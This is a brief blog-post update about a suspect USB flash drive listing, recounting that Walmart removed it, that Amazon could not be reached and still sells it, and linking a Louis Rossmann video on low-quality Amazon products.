I wanted to provide an update to this post since a few months has passed.

Since the post I have contacted Walmart and sent them this page, letting them know about the listing. Since then the page to purchase them no longer exists. I have replaced the link in this post with a Wayback Machine link of the page.

Unfortunately I was unable to get in touch with Amazon, as I have purchased the product through an another account. It seems the only way you can contact Amazon about a product is if you have the product in your purchase history.

Since then the product seems to be selling more, with Amazon indicating that the product has been purchased over 200 times in the past month (November). In fact, YouTuber Louis Rossmann has recently made a [video](https://www.youtube.com/watch?v=y83BS_mK9GE) covering the low quality products seen on Amazon.

#EMB# YT,https://www.youtube-nocookie.com/embed/y83BS_mK9GE

With that being said, caution should still be taken when purchasing any non-name brand USB flash drives.